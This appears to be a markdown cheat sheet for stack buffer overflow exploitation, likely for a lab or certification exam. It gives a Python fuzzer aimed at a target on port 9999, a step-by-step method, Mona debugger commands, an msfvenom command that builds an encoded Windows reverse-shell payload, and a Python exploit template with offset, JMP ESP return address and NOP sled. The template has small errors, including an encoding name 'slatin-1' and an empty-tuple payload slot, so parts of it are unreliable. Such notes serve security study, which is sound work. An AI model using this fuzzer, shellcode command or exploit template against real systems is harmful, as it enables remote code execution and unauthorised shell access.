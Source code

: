 # Buffer Overflow

## Fuzzer

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
 try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.183.130',9999))

	payload = prefix + buffer

	s.send((payload.encode()))
	s.close()
	sleep(1)
	buffer = buffer + "A"*100

 except:
	print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

## Steps

1. Fuzz and crash program w/ A's
2. Create msfpattern
3. Provide EIP to find offset
4. Check for bad characters
5. Find JMP ESP/Return Address
   * make sure protection schemes are off and base address doesn't contain bad chars
6. Generate Shellcode
   * `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"`
7. Exploit!

## Mona commands

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP Address
!mona jmp -r ESP -m "module"
```

## Template

```python
import socket

ip = "MACHINE IP"
port = 9999


prefix = ""
offset = 2306
overflow = "A" * offset
retn = "\x0d\x11\x20\x11" # JMP ESP 1120110d
padding = "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "slatin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
